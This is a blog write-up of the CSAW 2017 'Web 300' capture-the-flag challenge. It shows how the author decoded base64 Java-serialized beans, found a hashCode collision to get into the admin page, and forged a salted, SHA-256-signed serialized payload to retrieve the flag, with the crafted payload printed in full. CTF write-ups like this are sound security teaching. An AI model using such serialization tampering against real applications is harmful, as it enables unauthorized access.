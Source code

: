 ```yaml
---
layout: post
title:  "Java Serialization - CSAW Web 300"
image: ''
date:   2017-09-18 00:06:31
tags:
- Java Serialization, CSAW-Qualifiers, CSAW-2017
description: 'Web 300 - Java Serialization'
categories:
- Web, Java Serialization
---
```


So after a break from last year writing blogs, I thought of writing blog for this particular challenge for the reason that the time it took to get solved and also the method involved to solve this particular challenge.

The challenge description was `Not My Cup of Coffee, I heard you liked food based problems, so here's a liquid one.`
<a href="http://web.chal.csaw.io:8616"> Challenge Link</a>

Clicking on the link directs us to home where they have some beans already present in a table in which scrolling down shows `Flag` which we are interested in. Below that there was a link to the `admin` panel which led to a password protected page. When I tried entering random values, it showed incorrect. For a moment, I thought it would be injection but did not seem to work out.

Later, going back to the main page had an option of `Start breeding` wherein there is a coloumn where there were two fields to enter our input and another two boxes containing parent1 and parent2. Randomly tried giving in some input and gave the default parent which was `Covfefe`.

Redirecting to the home page and scrolling down showed us that our value got input with a description as well of `Covfefe`. Since there was `Flag` below that, my essential aim was to see which parent's description was inherited and bingo, it was parent1. Also we were able to see that the parent list in the `Start Breeding` page had new options being added with the Name that we gave before.

Later on going through the source code revealed that there was something next to the option, which was more of like a alphanumeric string seperated by a hash. Was able to get that the first was a base64 string and the second, some hex string. Decoding the base64 string of one of the options, here I took `Covfefe`, revealed a string.

{% highlight python %}
In [2]: base64.b64decode("rO0ABXNyABJjb2ZmZWUuQ292ZmVmZUJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb
   ...: 2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAHQ292ZmVmZXBw")
Out[2]: '\xac\xed\x00\x05sr\x00\x12coffee.CovfefeBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x07Covfefepp'
{% endhighlight %}

So after a bit of traversal through the web site, there was a request to `admin.jsp` and going to that (http://web.chal.csaw.io:8616/admin.jsp) dumped the password with a `$` sign in between.

{% highlight java %}
String result;
26:           // NOTE: Change $ to s when page is ready
27:           auth.loadPassword("Pas$ion");
28:           if (!guess.matches("[A-Za-z0-9]+")) {
29:             result = "Only alphanumeric characters allowed";
30:           } else {
31:             result = auth.lookup(guess.hashCode());
{% endhighlight %}

but since JavaCodes are deterministic, we can create one that matches this and that was `ParCipO`. Logging in to the admin page with this string gave me a key which was `c@ram31m4cchi@o`. Also, we had a hash appended towards the end of the serialized beans. After a bit of digging, I found that the hash appended was just a salt and not anything else. Now basically I had to craft a payload which contains the keyword `Flag` in it, appended with the salt.

The next thing was crafting the `parent1` as `payload + "-" + sha256sumhex(payload + salt)` where `salt` was `c@ram31m4cchi@o`. Essentially, crafting the payload was a bit task so in the beginning, my team-mate <a href=http://www.i4info.in/> Heeraj</a> and I had thought of replacing `Covfefe` with `Flag` and had sent request by modifying `parent1` but yielded no result. Then what we had thought was the string length of `Flag` with that of `Covfefe`. Yes, it is different and hence would alter the structure. So the very next moment, we took the base64 of `Raid`, updated with `Flag` and appended the hash that was to be appended which was `6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.

{% highlight python%}
In [3]: base64.b64decode("rO0ABXNyAA9jb2ZmZWUuUmFpZEJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZ
   ...: WUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAEUmFpZHBw")
Out[3]: '\xac\xed\x00\x05sr\x00\x0fcoffee.RaidBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Raidpp'

In [4]: str = "\xac\xed\x00\x05sr\x00\x0fcoffee.FlagBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x
   ...: 00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07pare
   ...: nt1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Flagpp'"
{%endhighlight%}

So the final string that had to be sent to the server in `parent1` was `rO0ABXNyAA9jb2ZmZWUuRmxhZ0JlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAERmxhZ3Bw-6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.

Bingo, modifying the request with the parameter of `Name` filled gives us the flag

`flag{yd1dw3wr1t3th15j@v....`
